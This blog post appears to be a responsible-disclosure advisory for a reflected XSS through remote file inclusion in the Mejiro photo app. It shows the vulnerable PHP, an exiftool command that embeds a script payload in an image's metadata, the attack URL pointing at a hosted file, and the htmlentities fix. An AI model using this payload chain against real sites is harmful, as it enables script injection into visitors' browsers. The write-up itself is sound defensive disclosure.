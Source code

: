 ```yaml
---
layout: post
title: Mejiro Reflected XSS Via Remote File Inclusion
thumbnail-img: /assets/img/CVE-2022-27475/bug.png
tags: [CVE]
---
```


```
Title: Mejiro Reflected XSS Via Remote File Inclusion
Risk: 6.1 Medium CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
Versions Affected: Before commit 3096393
Identifier: TBD
Authors: Aaron Haymore
```

## Summary
I have identified a reflected cross-site scripting (XSS) vulnerability in a GitHub project known as Mejiro, which is an open-source photo publishing application. This XSS vulnerability can be exploited due to two critical factors. The first factor involves how `index.php` loads photos, while the second factor pertains to how the application processes metadata.
## Details
The core of the vulnerability lies within `index.php`. As seen from the code below, the application is extracting metadata using `exif` and saving them to their respective variables.
```php
// Get aperture, exposure, iso, and datetime from EXIF
$aperture = (is_null($exif['COMPUTED']['ApertureFNumber']) ? null : $exif['COMPUTED']['ApertureFNumber']);
$exposure = (is_null($exif['EXIF']['ExposureTime']) ? null : $exif['EXIF']['ExposureTime']);
// Normalize exposure
// https://stackoverflow.com/questions/3049998/parsing-exifs-exposuretime-using-php
if (!is_null($exposure)) {
	$parts = explode("/", $exposure);
	if (($parts[1] % $parts[0]) == 0 || $parts[1] == 1000000) {
		$exposure = ' &bull; 1/' . round($parts[1] / $parts[0], 0);
	} else {
		if ($parts[1] == 1) {
			$exposure = ' &bull; ' . $parts[0];
		} else {
			$exposure = ' &bull; ' . $parts[0] . '/' . $parts[1];
		}
	}
}
$iso = (is_null($exif['EXIF']['ISOSpeedRatings']) ? null : " &bull; " . $exif['EXIF']['ISOSpeedRatings']);
$datetime = $exif['EXIF']['DateTimeOriginal'] ?? null;
$comment = $exif['COMMENT']['0'] ?? null;
```

A little further down in `index.php`, you can see how this information and photo are displayed to the user. It outputs each of the variables taken from above to the webpage.
```php
// Show photo, EXIF data, description, and info
// Enable the download link if $download = true
$raw = (!empty($raw_file[0]) ? '&raw=' .  $raw_file[0] : null);
if ($download) {
	echo '<div class="center"><a href="' . htmlentities($file) . '" download><img style="max-width: 100%; border-radius: 7px;" src="' . htmlentities($tim) . '" alt="' . $file_path['filename'] . '" title="' . $file_path['filename'] . '"></a><div class="caption">' . $comment . ' ' . $description . '</div><div class="caption">' . $exif_info . '<a href="delete.php?file=' . $file . $raw . '"><img style="margin-left: 1em;" src="svg/bin.svg" alt="' . L::img_delete . '" title="' . L::img_delete . '" /></a></div>';
} else {
	echo '<div class="center"><img style="max-width: 100%; border-radius: 7px;" src="' . htmlentities($tim) . '" alt="' . $file_path['filename'] . '" title="' . $file_path['filename'] . '"><div class="caption">' . $comment . ' ' . $description . '</div><div class="caption">' . $exif_info . '<a href="delete.php?file=' . $file . $raw . '"><img style="margin-left: 1em;" src="svg/remove-image.svg" alt="' . L::img_delete . '" title="' . L::img_delete . '" /></a></div>';
}
```

Notice that there is no sanitization between when the data is extracted and displayed to the user. Input sanitization, also known as input validation, is the process of inspecting and cleaning data received from untrusted or unvalidated sources to ensure it is safe. The primary goal of input sanitization is to protect against malicious injection-type attacks. 

As an attacker, if I can manipulate variables like $comment, $description, or any other field within $exif_info, it could result in a cross-site scripting vulnerability. This bug alone does not have an impact because all the photos here are controlled by the author. There is no upload function; they have to be manually placed on the file system.

However, I was able to find a remote file inclusion vulnerability in `index.php` on the `photo` variable (it is worth noting that LFI was not possible and it would only load images). By exploiting this vulnerability, I was able to host a malicious file that contained embedded JavaScript within its metadata. When the application processes my malicious file, it extracts the JavaScript, executing it when someone visits the page.
```php
$file = (isset($_GET['photo']) ? $_GET['photo'] : null);
```

## Proof Of Concept 
To illustrate the exploit, I injected a malicious payload into a seemingly innocent 'dog.jpg' file:
```
[zonifer@dell Sandbox]$ exiftool -Comment='<script>alert("XSS")</script>' dog.jpg
    1 image files updated
```

Next, I hosted the payload on a basic `python3` web server:
```
[zonifer@dell Sandbox]$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.1.17 - - [09/Oct/2023 00:33:12] "GET /dog.jpg HTTP/1.0" 200 -
```

To trigger the XSS, I navigated to:

`http://10.10.1.17/mejiro/index.php?all=1&photo=http://10.50.1.2/dog.jpg`

As a result, the XSS payload executed as expected.
![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/20231009003326.png)

## Patch
To patch this vulnerability, the simplest solution is to utilize `htmlentities`. `htmlentities` is a PHP function used to convert special characters in a string to their respective HTML entities.

For example, characters like `<`, `>`, `&`, and double quotes `"` have special meanings in HTML. If they are not properly escaped, malicious users can inject code into web pages. `htmlentities` replaces these characters with their HTML entity equivalents, making it safe to display content on a webpage.

As an example, a malicious script to spawn an alert box would be:
```
<script>alert("XSS")</script>
```

After processing it through `htmlentities`, it would be:
```
`&lt;script&gt;alert(&quot;XSS&quot;)&lt;/script&gt;`
```

You can view the fix [here](https://github.com/dmpop/mejiro/commit/309639339f5816408865902befe8c90cb6862537), It essentially does what is just described above. It takes each of the EXIF data fields and processes it through `htmlentities` to strip away any possibility of malicious JavaScript.
## Report Timeline
```
10-9-2023: Vulnerability discovered and reported to the author.
10-10-2023: The author acknowledged the report and asked for suggestions to fix the issue.
10-10-2023: Response provided to the author, suggesting ways to fix the vulnerability.
10-15-2023: The patch was successfully pushed
```

## Conclusion
The Reflected XSS vulnerability in Mejiro underscores the importance of thorough security testing in web applications. It serves as a reminder that even seemingly benign elements, such as image metadata, can be exploited by malicious actors to compromise the security of a system. The timely response of the Mejiro development team in implementing the suggested patch is commendable and highlights the importance of collaboration in ensuring the security of web applications. By addressing such vulnerabilities proactively, we contribute to a safer and more reliable digital landscape.

